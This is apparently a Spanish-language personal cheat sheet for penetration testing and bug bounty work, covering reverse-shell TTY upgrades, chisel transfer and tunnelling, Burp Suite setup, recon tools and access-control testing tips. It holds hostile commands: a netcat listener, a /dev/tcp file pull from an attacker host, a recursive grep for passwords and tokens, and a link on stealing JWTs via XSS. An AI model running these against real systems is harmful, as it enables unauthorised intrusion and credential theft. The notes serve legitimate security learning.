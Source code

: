 # Varias cositas  

## Comandos y funciones Bash utiles  

extractPorts  
https://gist.github.com/anibalardid/5e05b6472feb3d31116729dc24e6d3e2  

rmk  
https://gist.github.com/anibalardid/b2d4025152d913e398fcef6830d89cad  

mkt  
https://gist.github.com/anibalardid/6bbd0a8fefb507b88bc511d41ecd91ba  


## Diccionarios  

https://github.com/NullWin/DiccionarioArgentino  


## Tips  

### Comandos al ingresar por shell (reverse shell)  

whoami  
ifconfig o ip a  
  
script /dev/null -c bash  
^Z  
stty raw echo -echo; fg  
nc -nlvp 443  
reset  

terminal ? xterm  
export TERM=xterm  
export SHELL=bash  

en una ventana mia ejecutar: stty -a   
Y ver la cantidad de filas y columnas, para configurar lo mismo en la maquina remota  
stty rows 53 columns 206  

Buscamos credenciales  
grep -r -i -E "user|pass|key|token"  

Buscamos archivos   
find \-type f 2>/dev/null  

Script en python:  
https://pastebin.com/5GqY54FG  

### Chisel  
https://github.com/jpillora/chisel  

truco para compilar a bajo peso:  
go build -ldflags "-s -w"  
du -hc chisel  
upx brute chisel  
du -hc chisel  

> upx comprime binarios

desde maquina local hacer:  
nc -lnvp 443 < chisel  
y en maquina virtual:  
cat > chisel < /dev/tcp/ipxxx/443

maquina local:  
./chisel server --reverse -p puerto    

maquina ataque:  
./chisel client ip:puerto  

### Borrado seguro de archivos  
scrub y shred  

### TMUX  
Oh My TMUX  
https://github.com/gpakosz/.tmux  

Cheat Sheet  
https://gist.github.com/anibalardid/d5db8be18cabafe9fc8eea28c3fae2f7  


### Steghide - Esteganografía  
Buscar contenido en las imágenes  

http://steghide.sourceforge.net/  
https://fwhibbit.es/steghide-brute-force-tool  
https://github.com/Va5c0/Steghide-Brute-Force-Tool  
https://github.com/Paradoxis/StegCracker  


### Encodear (encoding) de payloads para pruebas  
CyberChef  
https://gchq.github.io/CyberChef/  

### Buscar directorios y subdominios con Burp Suite Pro
Extensiones interesantes a instalar en Burp Suite:  
```
XSS Validator
Software Vulnerability Scanner
Replicator
NoSQLi Scanner
JavaScript Security
Flow
Error Message Checks
CSRF Scanner
CMS Scanner
Burp Bounty
Autowasp
```

1- Abrir proxy y cargar sitio  
2- Ir a Target - Scope -> cambiar a modo avanzado y escribir solo una parte de la url, por ejemplo "hilton" , y luego poner NO  
3- Ir a Sitemap, tocar en la barra de Filter, y tildar "show only in scope items"  
4- Señalar todos los dominios, boton derecho, Scan  
5- Elegir opcion "Crawl", luego en SCAN CONFIGURATION -> select from library , agregar "crawl strategy faster" y "never stop..."  
6- En Resource pool, poner un maximo de request , por ej 50, que grabe , y darle a OK   
7- En Dashboard se puede ver el progreso de escaneo.  
8- En la solapa Flow tambien se puede ver el progreso, si no se tiene se instala de Extended -> BApp Store  


### Pasos The Bug Hunter's Methodology Full 2-hour Training by Jason Haddix  

- Búsqueda subdominios
amass, subfinder  

- Github Dorks
GitDorker: 
https://obheda12.medium.com/gitdorker-a-new-tool-for-manual-github-dorking-and-easy-bug-bounty-wins-92a0a0a6b8d5  
https://github.com/obheda12/GitDorker  
Hunter.sh:  
https://gist.github.com/anibalardid/9787094b9c642eadd217c7b6dd6dbfac  
  
Github Search :  
https://github.com/gwen001/github-search  

- Verificar subdominios  y dominios activos
httprobe:  
https://github.com/tomnomnom/httprobe  


--- 

### Broken Access Control
Tips de El Mago

Ejemplo de writeup    
https://galnagli.com/Samsung_Exposure/  
https://notifybugme.medium.com/unauthorized-access-to-admin-setpassword-page-by-bypass-403-forbidden-f10bbb92ab35  

### Tips  
crear 2 cuentas , comun y otra para admin (usando + o . , o mails temporales)  
usar match and replace de burp suite  
reemplazar false x true y true x false  (proxy, options, match and replace, como response body)  
leer los archivos js  
probar cambiar verbo/metodos  

Extension multi account container  

se le puede dar acceso a la cuenta desde un usuario a otro  
y vemos q hay opciones q no se ven  
en el burp, en proxy history, boton derecho - repeater  
hacemos lo mismo con un request del otro usuario   
probamos cambiar los authorization headers entre los requests  
e ir probando 1 x 1 varios endpoints  

Se puede automatizar, instalando desde BApp Store  : Authorize   

robar x xss sesion de jwt de localstorage   
https://medium.com/redteam/stealing-jwts-in-localstorage-via-xss-6048d91378a0   


### Encode 
Para usar xss, se puede encodear el código como unicode. 


## Como usar Burp Suite

### Configuración inicial
1) Instalar en el browser Foxy Proxy (o configurar a mano el proxy)
2) La config del proxy se encuentra en Proxy - Options 
3) Exportar el archivo del certificado .der
4) Importar certificado en el browser, en la sección de entidades , debe preguntar opciones al importar
5) Probar encender el proxy y cargar una web https para probar q funcione el certificado
6) En Burp en Proxy - Intercept , si esta en ON, podremos ir viendo los requests y responses, avanzando con el boton de Forward

### Uso Básico
1) Encender proxy
2) Poner Intercept en Off , hasta que querramos empezar a interceptar
3) Ir a la solapa TARGET y en Scope especificar la url, o con la opcion Avanzada elegir un regex
4) Luego en Proxy, ir a Opciones, y ahi poner AND en las opciones de Intercept Client Request
5) 



